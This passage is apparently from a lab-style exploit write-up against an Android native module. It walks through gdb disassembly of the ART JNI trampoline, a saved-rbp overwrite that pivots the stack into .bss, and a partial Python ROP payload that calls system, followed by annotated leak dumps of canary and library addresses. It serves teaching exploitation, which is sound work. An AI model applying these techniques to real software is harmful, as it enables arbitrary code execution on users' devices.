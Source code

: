 It is clear that in between the *Write - What - Where* condition and the `pop rbp` - instruction there are no references to the stored old `rbp` of the calling function. Therefore, we can "safely" overwrite it. But why would we do this? Consider what happens after we return from `storePair`:
```
gef➤  x/35i 0x0000730c0379ffa9
    0x730c0379ffa9:	call   r11
    0x730c0379ffac:	mov    rdi,QWORD PTR gs:0xe0    <--- we return here
    0x730c0379ffb5:	mov    rsi,rax
    0x730c0379ffb8:	movq   rdx,xmm0
    0x730c0379ffbd:	call   0x730c03d62b00 <artInvokeInterfaceTrampolineWithAccessCheck+208>
    0x730c0379ffc2:	mov    rcx,QWORD PTR gs:0xa0
    0x730c0379ffcb:	test   rcx,rcx
    0x730c0379ffce:	jne    0x730c037a0034 <art_quick_read_barrier_mark_reg02+116>
    0x730c0379ffd0:	mov    rsp,rbp                  <--- how convenient!
    0x730c0379ffd3:	movq   xmm1,QWORD PTR [rsp+0x18]
    0x730c0379ffd9:	movq   xmm2,QWORD PTR [rsp+0x20]
    0x730c0379ffdf:	movq   xmm3,QWORD PTR [rsp+0x28]
    0x730c0379ffe5:	movq   xmm4,QWORD PTR [rsp+0x30]
    0x730c0379ffeb:	movq   xmm5,QWORD PTR [rsp+0x38]
    0x730c0379fff1:	movq   xmm6,QWORD PTR [rsp+0x40]
    0x730c0379fff7:	movq   xmm7,QWORD PTR [rsp+0x48]
    0x730c0379fffd:	movq   xmm12,QWORD PTR [rsp+0x50]
    0x730c037a0004:	movq   xmm13,QWORD PTR [rsp+0x58]
    0x730c037a000b:	movq   xmm14,QWORD PTR [rsp+0x60]
    0x730c037a0012:	movq   xmm15,QWORD PTR [rsp+0x68]
    0x730c037a0019:	add    rsp,0x70
    0x730c037a001d:	pop    rcx
    0x730c037a001e:	pop    rdx
    0x730c037a001f:	pop    rbx
    0x730c037a0020:	pop    rbp
    0x730c037a0021:	pop    rsi
    0x730c037a0022:	pop    r8
    0x730c037a0024:	pop    r9
    0x730c037a0026:	pop    r12
    0x730c037a0028:	pop    r13
    0x730c037a002a:	pop    r14
    0x730c037a002c:	pop    r15
    0x730c037a002e:	movq   xmm0,rax
    0x730c037a0033:	ret    
```
So if we were to pass the function call `call 0x730c03d62b00` and `rcx = 0`, then we reach `mov rsp, rbp`, where `rbp` can be a value of our choice if we decide to overwrite the old rbp! After `rsp` has been set, we can see that we have a lot of references to `rsp` in order to restore the registers. So in addition to our ROP - chain, we need to ensure that there is a region of size `0x70 + 11 * 0x8` of accessible memory. The content of the accessible memory region can be anything, although we could use it to make an initial setup for the registers. Right after that region, we can place our ROP - chain, as `rsp` will point to `rbp + 0x70 + 11 * 0x8 = rbp + 0xc8`. Once we hit the ROP - chain, we can continue as usual in order to set up a command for `system` etc.

Once we want to call `system` we need to restore the stack in order to make segmentation faults etc. less likely (remember that `rsp` is currently pointing to some globally accessible memory region, e.g. `.bss`. We do **not** want our stack to be there forever!). To that end we write the address of `system` to the stack pointer that was leaked by `lookupExamples`, set `rsp` to that address and call `pop rsp; ret`:
```python
# Up to this point, rsp still points into .bss! This will most likely crash the app while calling system! Thus try to reset rsp by abusing the stack pointer leak. We will set rsp to the leaked address, but before we will set the stack value at that leaked address to system@libc! Thus we can use a pop rsp; ret gadget.
# Write address of system@got.plt to stack address. rdi currently contains the command string!
payload += gadget_pop_rcx
payload += address_stack
payload += gadget_mov_deref_rcx_rax

# Restore stack
```

[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address